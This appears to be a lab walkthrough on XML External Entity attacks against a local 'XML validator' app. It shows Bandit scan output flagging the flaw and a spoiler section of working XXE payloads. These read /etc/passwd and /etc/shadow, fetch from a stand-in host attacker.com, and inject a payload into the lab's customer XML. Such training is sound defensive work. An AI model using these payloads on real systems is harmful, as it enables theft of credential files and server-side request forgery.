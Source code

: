 # External entity attack

An XML External Entity attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.

Attacks can include disclosing local files, which may contain sensitive data such as passwords or private user data, using file: schemes or relative paths in the system identifier. Since the attack occurs relative to the application processing the XML document, an attacker may use this trusted application to pivot to other internal systems, possibly disclosing other internal content via http(s) requests or launching a CSRF attack to any unprotected internal services. In some situations, an XML processor library that is vulnerable to client-side memory corruption issues may be exploited by dereferencing a malicious URI, possibly allowing arbitrary code execution under the application account. Other attacks can access local resources that may not stop returning data, possibly impacting application availability if too many threads or processes are not released.

#### Discovery

We can discover XXE by looking into the application where XML is being parsed.
There are default safe and default unsafe parsers you can find on the web. So it is always
good to do some research about the type of parser before implementation.

First lets try to run a bandit scan against the application source code!

Bandit is a tool designed to find common security issues in Python code. To do this Bandit processes each file, builds an AST from it, and runs appropriate plugins against the AST nodes. Once Bandit has finished scanning all the files it generates a report.

Installing Bandit is as easy as:

```
pip install bandit
# Or if you're working with a Python 3 project
pip3 install bandit
```

And to run we simply do:

```
bandit -r path/to/your/code
```

Let's look at some of the output

```
>> Issue: [B319:blacklist] Using xml.dom.pulldom.parseString to parse untrusted XML data is known to be vulnerable to XML attacks. Replace xml.dom.pulldom.parseString with its defusedxml equivalent function or make sure defusedxml.defuse_stdlib() is called
   Severity: Medium   Confidence: High
   Location: target/project/controllers/Validator.py:15
   More Info: https://bandit.readthedocs.io/en/latest/blacklists/blacklist_calls.html#b313-b320-xml-bad-pulldom
14	def XML_validator():
15	    doc = parseString(request.form['customers'])
16	    try:
```

Ofcourse we can also discover this vulnerability by try and error.
If we go to the following page we find an "XML validator"

```
http://0.0.0.0:8081/validator
```

To work with the right format we can start by downloading the valid format from 
"Download XML example template" and tinker with this output to form a XXE attack and load
resources from the local web server.

the valid xml output looks as following:

```
<customers>
    <customer> Mr Mario, Bros </customer>
    <customer> Mr Luigi, Bros </customer>
    <customer> Mr Club, Mate </customer>
    <customer> Ms Peach, Princes</customer>
</customers>
```

#### Spoiler 1 - payload examples

payload examples:

```
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
   ```

   As you can see we can load sources from both internal file system as from external sources.
   That can also be very interesting when you want to perfom other sorts of attacks like XSS.

   Now lets refer again to the original XML output and tinker it in a way where it is leveraging
   our attack!

```
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE customer [  
   <!ELEMENT customer ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><customers>
    <customer> sd&xxe; </customer>
    <customer> Mr Luigi, Bros </customer>
    <customer> Mr Club, Mate </customer>
    <customer> Ms Peach, Princes</customer>
</customers>
```


